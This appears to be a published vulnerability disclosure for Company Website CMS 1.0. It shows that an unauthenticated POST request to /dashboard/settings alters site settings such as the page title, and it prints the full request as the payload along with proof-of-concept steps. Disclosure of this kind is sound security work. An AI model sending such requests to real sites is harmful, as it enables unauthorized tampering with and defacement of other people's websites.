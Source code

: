 # Company Website CMS   - site-settings Identification and Authentication Failures


#### Exploit Title: Company Website CMS   - site-settings Identification and Authentication Failures
#### Exploit Author: webraybtl@webray.com.cn inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15517/company-website-cms-php.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15517&title=Company+Website+CMS+in+PHP+and+MySQL+Free+Source+Code

#### Version: Company Website CMS  1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Confirmation of the user's identity, authentication, and session management is critical to protect against authentication-related attacks.

#### Payload used:
```
POST /dashboard/settings HTTP/1.1
Host: 192.168.67.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------130129938625432137941198016745
Content-Length: 1646
Origin: http://192.168.67.9
Connection: close
Referer: http://192.168.67.9/dashboard/settings
Upgrade-Insecure-Requests: 1

-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_title"

666
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_keyword"

Church, Marketing
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_desc"

Lorem ipsum dolor sit amet, consectetur adipisicing elit. Impedit nihil tenetur minus quidem est deserunt molestias accusamus harum ullam tempore debitis et, expedita, repellat delectus aspernatur neque itaque qui quod.
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_about"

 Young coders can use events to coordinate timing and communication between different sprites or pieces of their story. For instance, the when _ key pressed block is an event that starts code whenever the corresponding key on the keyboard is pressed.
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_footer"

© 2022 All Rights Reserved
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="follow_text"

Lorem ipsum dolor sit amet, consectetur adipisicing elit. Impedit nihil tenetur minus quidem est deserunt molestias.
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_url"

http://localhost:8080/vogue/
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="save"


-----------------------------130129938625432137941198016745--


```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/，title has been changed

   ![image-20220810142427550](./img/image-20220810142427550.png)

   

   




